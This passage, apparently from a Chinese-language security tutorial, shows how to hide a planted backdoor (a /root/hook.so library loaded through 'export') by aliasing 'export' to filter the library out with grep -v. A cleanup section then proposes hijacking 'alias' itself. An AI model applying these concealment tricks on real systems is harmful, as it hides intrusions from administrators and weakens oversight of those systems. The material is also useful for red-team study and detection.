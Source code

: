 添加后门后是这样：

[![](assets/1708920000-9184bfcf8fe016b0f1762d79e42a15f6.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214163840662.png)

老样子 alias+grep -v

```plain
alias export='func(){ export $* | grep -v "/root/hook.so";};func'
```

- - -

##### 善后

我们整体的思路都是通过 alias 劫持命令回显，那么 alias 命令本身就会露馅，所以我们还要对 alias 进行劫持

[![](assets/1708920000-6fb69a597abcf6f266fa0425e03c42de.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214164026089.png)
